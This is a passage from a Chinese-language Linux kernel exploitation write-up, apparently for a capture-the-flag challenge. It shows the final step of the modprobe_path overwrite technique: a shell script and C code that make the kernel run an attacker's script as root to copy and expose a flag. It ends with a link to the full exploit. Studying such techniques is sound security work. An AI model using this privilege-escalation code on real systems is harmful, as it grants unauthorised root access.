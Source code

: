 ```
```

### <a class="reference-link" name="3.3%20%E6%89%A7%E8%A1%8C%E4%BB%BB%E6%84%8F%E8%84%9A%E6%9C%AC"></a>3.3 执行任意脚本

既然`modprobe_path`指向`/tmp/x`，我们要做的就是编写其内容，该内容将以root特权执行。在这种情况下，我们只需要编写一个简单的Shell脚本，将该标志从`/dev/sda`复制到`/tmp`目录中，并使其对所有用户可读。脚本如下：

```
#!/bin/sh
cp /dev/sda /tmp/flag
chmod 777 /tmp/flag
```

之后，我编写了一个仅包含`\xtf`字节的虚拟文件，以使其成为系统的未知文件，然后执行它。在执行完成后，我们应该在`/tmp`中可以看到一个可以读取的flag文件：

```
void get_flag(void)`{`
    puts("[*] Returned to userland, setting up for fake modprobe");

    system("echo '#!/bin/sh\ncp /dev/sda /tmp/flag\nchmod 777 /tmp/flag' &gt; /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' &gt; /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");

    exit(0);
`}`
```

如果一切顺利，应该就可以打印这个flag。



## 0x04 总结

至此，我想我们都理解了为什么PWN大神们如此喜爱这种技术。当我在充分理解后编写漏洞利用程序时，我感到非常惊讶，因为它不仅非常易于理解和使用，而且前提条件非常少，在这两点上都具有优势。因此，我立刻就完成了这篇文章，希望能对大家有所帮助。



## 0x05 附录

完整漏洞利用代码请参考：[https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/modprobe.c](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/modprobe.c) 。
